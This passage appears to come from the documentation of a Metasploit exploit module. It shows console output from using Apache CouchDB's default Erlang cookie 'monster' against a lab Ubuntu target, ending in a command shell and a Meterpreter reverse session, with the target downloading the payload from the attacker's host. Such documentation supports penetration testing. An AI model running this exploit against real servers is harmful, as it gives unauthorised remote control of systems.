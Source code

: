 ```
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - sending payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t82KLKYvcDd54em2;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t82KLKYvcDd54em2\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.199.1:4443 -> 172.16.199.164:53778) at 2022-10-13 14:09:49 -0400

id
uid=128(couchdb) gid=134(couchdb) groups=134(couchdb)
uname -a
Linux ubuntu 5.15.0-50-generic #56~20.04.1-Ubuntu SMP Tue Sep 27 15:51:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Target: Linux Dropper, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - Using URL: http://172.16.199.1:8080/xiNdbG3
[*] 172.16.199.164:4369 - sending payload...
[*] 172.16.199.164:4369 - Client 172.16.199.164 (Wget/1.20.3 (linux-gnu)) requested /xiNdbG3
[*] 172.16.199.164:4369 - Sending payload to 172.16.199.164 (Wget/1.20.3 (linux-gnu))
[*] Meterpreter session 10 opened (172.16.199.1:4444 -> 172.16.199.164:57710) at 2022-10-17 18:33:57 -0400
[*] 172.16.199.164:4369 - Command Stager progress - 100.00% done (112/112 bytes)
[*] 172.16.199.164:4369 - Server stopped.

meterpreter > getuid
Server username: couchdb
meterpreter > sysinfo
Computer     : 172.16.199.164
OS           : Ubuntu 20.04 (Linux 5.15.0-50-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
```
